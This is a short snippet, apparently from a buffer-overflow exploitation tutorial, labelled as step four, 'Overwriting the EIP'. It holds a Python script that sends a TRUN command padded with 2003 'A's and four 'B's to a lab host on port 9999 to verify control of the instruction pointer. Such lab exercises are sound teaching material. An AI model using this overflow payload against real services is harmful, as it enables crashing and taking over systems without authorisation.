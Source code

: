4-Overwriting the EIP

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#!/usr/bin/python
import sys, socket

verifyeip = "A" * 2003 + "B" * 4

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.253.129",9999))
	s.send(('TRUN /.:/' + verifyeip))
	s.close()

except:
	print "Error Connecting to Server..."
	sys.exit()
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
